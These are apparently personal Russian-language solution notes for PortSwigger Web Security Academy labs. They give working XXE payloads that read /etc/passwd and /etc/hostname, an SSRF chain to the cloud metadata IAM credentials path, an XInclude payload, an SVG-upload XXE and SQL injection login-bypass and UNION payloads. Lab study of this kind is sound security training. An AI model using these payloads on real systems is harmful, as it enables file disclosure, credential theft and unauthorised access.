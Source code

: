 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

' <!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> '

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
те же действия, что и в предыдущей. до пункта 4) 
5)после объявления xml добавить:
'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>'
6)заменить product id на &res; отправить запрос, 
7)в ответе придет latest - добавить его к адресу и получим 
'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 'и так далее, 
n+1)в итоге получаем '<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>', что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5)в *product id* вставить '''<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> '''
6)в ответ придёт /etc/passwd

4.
1) 2) выбрать статью 
3)нажать отправить комментариq(заполнить все поля предварительно) 
4)перехватить запрос через Burp
5)в поле для картинки вставить: 
'''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>'''
svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)


1. https://portswigger.net/web-security/sql-injection/lab-login-bypass
1) в графе login ввести administrator'--
2.https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 
1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице
2)заменяем NULL по очереди на 'HmnfQ2' - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 
3)второй столбец оказался верным - выводится результат